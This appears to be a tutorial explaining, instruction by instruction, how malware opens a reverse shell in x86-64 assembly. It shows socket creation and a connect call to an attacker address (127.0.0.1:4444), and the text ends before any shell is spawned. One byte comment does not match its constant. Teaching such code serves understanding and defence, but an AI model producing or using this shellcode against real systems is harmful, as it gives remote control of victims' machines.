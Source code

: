 Let's create a minimalist example of how malware can create a reverse shell.    

First of all, **we need a creating socket**:     

```nasm
; socket(AF_INET, SOCK_STREAM,0);
push 0x2             ; store 0x2 on stack
pop rdi              ; pop this value into rdi -> AF_INET

push 0x1             ; store 0x1 on stack
pop rsi              ; pop this value into rsi -> SOCK_STREAM

xor rdx,rdx          ; null out rdx -> 0x00

push 97              ; socket() syscall - 97
pop rax
bts rax,25
syscall
```

What's happening here? The first two push and pop instructions set up the values for the socket call. `AF_INET (0x2)` indicates the use of `IPv4`. `SOCK_STREAM (0x1)` specifies that we want a stream socket (`TCP`).     

The `xor rdx,rdx` instruction zeroes out the `rdx` register, which in this case means that we are not using any additional flags for the socket call.     

Finally, the `syscall` instruction makes the `socket()` system call to create the socket.     

This step essentially sets up a socket that will later be used to establish a connection to the attacker's machine.     

At the next step, **we need to connecting to the attacker's machine**. Generally it's looks like this:     

```nasm
; connect(sockt, (struct sockaddr *) &revsockaddr,sizeof(revsockaddr));
mov rdi,r9           ; rdi -> socket file descriptor

; sockaddr
xor rsi,rsi          ; null out rsi
push rsi             ; sin_zero

mov rsi,0x0100007F5C110201 ; 0x01 0x02 0x11 0x5C 0x0A 0x00 0x02 0x02
dec rsi              ; sin_len = 0x00 after decrement
push rsi
push rsp
pop rsi

;; sizeof(addr)
push 0x10            ; place 0x10 (16) on stack
pop rdx              ; rdx -> sizeof struct -> 16 bytes -> 0x10

;; syscall connect()
push 98              ; connect() syscall - 98
pop rax
bts rax,25
syscall
```
